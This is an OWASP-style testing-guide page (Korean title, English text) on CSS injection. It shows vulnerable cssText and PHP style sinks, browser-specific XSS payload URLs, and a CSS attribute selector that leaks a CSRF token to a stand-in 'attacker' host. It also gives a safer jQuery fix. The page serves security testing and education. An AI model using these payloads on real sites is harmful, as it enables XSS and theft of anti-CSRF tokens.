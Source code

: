 ============================================================================================
OTG-CLIENT-005 (CSS 인젝션 침투 테스트)
============================================================================================

|

개요
============================================================================================

A CSS Injection vulnerability involves the ability to inject arbitrary
CSS code in the context of a trusted web site, and this will be
rendered inside the victim’s browser. The impact of such a vulnerability
may vary on the basis of the supplied CSS payload: it
could lead to Cross-Site Scripting in particular circumstances, to
data exfiltration in the sense of extracting sensitive data or to UI
modifications.

|

테스트 방법
============================================================================================

Such a vulnerability occurs when the application allows to supply
user-generated CSS or it is possible to somehow interfere with
the legit stylesheets. Injecting code in the CSS context gives the
attacker the possibility to execute JavaScript in certain conditions
as well as extracting sensitive values through CSS selectors and
functions able to generate HTTP requests. Actually, giving the
users the possibility to customize their own personal pages by
using custom CSS files results in a considerable risk, and should
be definitely avoided.
The following JavaScript code shows a possible vulnerable
script in which the attacker is able to control the “location.hash”
(source) which reaches the “cssText” function (sink). This particular
case may lead to DOMXSS in older browser versions, such as
Opera, Internet Explorer and Firefox; for reference see DOM XSS
Wiki, section “Style Sinks”.

.. code-block:: html

    <a id=”a1”>Click me</a>
    <script>
    if (location.hash.slice(1)) {
    document.getElementById(“a1”).style.cssText = “color: “ +
    location.hash.slice(1);
    }
    </script>

Specifically the attacker could target the victim by asking her to
visit the following URLs:

- www.victim.com/#red;-o-link:’javascript:alert(1)’;-o-linksource:
current; (Opera [8,12])
- www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)

The same vulnerability may appear in the case of classical reflected
XSS in which for instance the PHP code looks like the following:

.. code-block:: html

    <style>
    p {
    color: <?php echo $_GET[‘color’]; ?>;
    text-align: center;
    }
    </style>

Much more interesting attack scenarios involve the possibility to
extract data through the adoption of pure CSS rules. Such attacks
can be conducted through CSS selectors and leading for
instance to grab anti-CSRF tokens, as follows. In particular, input[
name=csrf_token][value=^a] represents an element with
the attribute “name” set “csrf_token” and whose attribute “value”
starts with “a”. By detecting the length of the attribute “value”,
it is possible to carry out a brute force attack against it and
send its value to the attacker’s domain.

.. code-block:: html

    <style>
    input[name=csrf_token][value=^a] {
    background-image: url(http://attacker/log?a);
    }
    </style>

Much more modern attacks involving a combination of SVG, CSS
and HTML5 have been proven feasible, therefore we recommend
to see the References section for details.

|

Black Box testing
-----------------------------------------------------------------------------------------------

We are referring to client-side testing, therefore black box testing
is not usually performed since access to the source code is
always available as it needs to be sent to the client to be executed.
However, it may happen that the user is given a certain
degree of freedom in terms of possibilities to supply HTML code;
in that case it is required to test whether no CSS injections are
possible: tags like “link” and “style” should be disallowed, as well

as attributes “style”.

|

Gray Box testing
-----------------------------------------------------------------------------------------------

Testing for CSS Injection vulnerabilities:
Manual testing needs to be conducted and the JavaScript code
analyzed in order to understand whether the attackers can inject
its own content in CSS context. In particular we should be
interested in how the website returns CSS rules on the basis of
the inputs.
The following is a basic example:

.. code-block:: html

    <a id=”a1”>Click me</a>
    <b>Hi</b>
    <script>
    $(“a”).click(function(){
    $(“b”).attr(“style”,”color: “ + location.hash.slice(1));
    });
    </script>

The above code contains a source “location.hash” that is controlled
by the attacker that can inject directly in the attribute
“style” of an HTML element. As mentioned above, this may lead
to different results on the basis of the adopted browser and the
supplied payload.
It is recommended that testers use the jQuery function css(property,
value) in such circumstances as follows, since this would
disallow any damaging injections. In general, we recommend to
use always a whitelist of allowed characters any time the input is
reflected in the CSS context.

.. code-block

    <a id=”a1”>Click me</a>
    <b>Hi</b>
    <script>
    $(“a”).click(function(){
    $(“b”).css(“color”,location.hash.slice(1));
    });
    </script>


References
============================================================================================

OWASP Resources
-----------------------------------------------------------------------------------------------

• DOM based XSS Prevention Cheat Sheet
• DOMXSS Wiki - https://code.google.com/p/domxsswiki/wiki/CssText

|

Presentations
-----------------------------------------------------------------------------------------------

- DOM Xss Identification and Exploitation, Stefano Di Paola
http: //dominator.googlecode.com/files/DOMXss_Identification_and_exploitation.pdf
- Got Your Nose! How To Steal Your Precious Data Without
Using Scripts, Mario Heiderich - http://www.youtube.com/
watch?v=FIQvAaZj_HA
- Bypassing Content-Security-Policy, Alex Kouzemtchenko
http://ruxcon.org.au/assets/slides/CSP-kuza55.pptx

|

Proof of Concepts
-----------------------------------------------------------------------------------------------

• Password “cracker” via CSS and HTML5 - http://html5sec.org
invalid/?length=25
• CSS attribute reading - http://eaea.sirdarckcat.net/cssar/v2/

|